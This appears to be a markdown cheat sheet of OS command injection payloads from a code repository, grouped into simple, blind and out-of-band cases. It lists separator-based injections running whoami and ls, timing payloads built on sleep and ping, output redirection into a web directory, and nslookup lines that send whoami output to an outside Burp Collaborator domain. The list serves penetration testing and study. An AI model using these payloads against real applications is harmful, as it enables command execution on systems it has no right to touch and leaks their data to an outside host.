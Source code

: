 # OS Command Injection Payloads
___
## Simple Case
```sh
& whoami #

;ls

;ls;
```
## Blind injection
```sh
& sleep 10 #

; sleep 10 ;

& whoami > /var/www/images/output.txt # >> Output redirection

; whoami > /var/www/images/output.txt ; >> Output redirection

asd||sleep 5|| >> Middle of two parameter.

||ping+-c+10+127.0.0.1||

asd||sleep 5 # >> Last parameter or to comment out extra parameter
```
## Out of band
```sh
& nslookup xgvse45vdusd5etw7ewqd9d78wq.burpcollaborator.net #

& nslookup `whoami`.xgvse45vdusd5etw7ewqd9d78wq.burpcollaborator.net #

& nslookup $(whoami).xgvse45vdusd5etw7ewqd9d78wq.burpcollaborator.net #
```
